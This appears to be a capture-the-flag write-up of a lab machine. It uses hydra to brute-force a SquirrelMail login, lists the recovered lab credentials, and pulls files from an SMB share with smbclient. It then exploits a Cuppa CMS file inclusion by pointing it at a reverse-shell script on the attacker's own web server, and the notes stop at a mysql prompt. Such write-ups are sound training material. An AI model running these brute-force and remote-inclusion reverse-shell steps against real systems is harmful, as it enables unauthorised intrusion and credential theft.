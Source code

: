 Performed brute-force using hydra as user `milesdyson` and used the provided wordlist
```
hydra 10.10.220.13 -l 'milesdyson' -P anonymous/logs/log1.txt http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect" -t 64
```
![[Pasted image 20240822195842.png]]

Logged into squirrelmail and found an email in inbox from `skynet@skynet`
![[Pasted image 20240822200723.png]]

`milesdyson:cyborg007haloterminator` - squirrelmail
`milesdyson:)s{A&2Z=F^n_E.B``

With this credential, accessed `milesdyson`'s SMB share
```bash
smbclient -U 'milesdyson' \\\\10.10.192.189\\milesdyson 
```
```
recurse ON
prompt OFF
mget *
```

Found a file in the share `important.txt`
![[Pasted image 20240823124436.png]]

- Performed gobuster on http://10.10.192.189/45kra24zxs28v3yd and found /administrator directory for Cuppa CMS login 
- Found LFI vulnerability for Cuppa CMS that works on 
```txt
http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]
```
- Hence, performed gobuster again on http://10.10.192.189/45kra24zxs28v3yd/administrator and found /alerts. 
- Confirmed LFI
![[Pasted image 20240823124708.png]]
This vulnerability also allows reading remote or local files. The description of vulnerability of [ExploitDB](https://www.exploit-db.com/exploits/25971) says that the PHP code will be evaluated (executed). 
- Started a local webserver to serve `php-reverse-shell.php`
- navigated to http://10.10.192.189/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.103.8:8888/php-reverse-shell.php
- got reverse shell as `www-data`
![[Pasted image 20240823125054.png]]
- /home/milesdyson
	- found `user.txt`
	- found backup script that backs up the `/var/www/html` directory
	- extracted backup.tgz on attacker's machine and found `configuration.php` containing cuppa CMS db password
	- `root:password123`
![[Pasted image 20240823130938.png]]

mysql> cuppa> cu_users

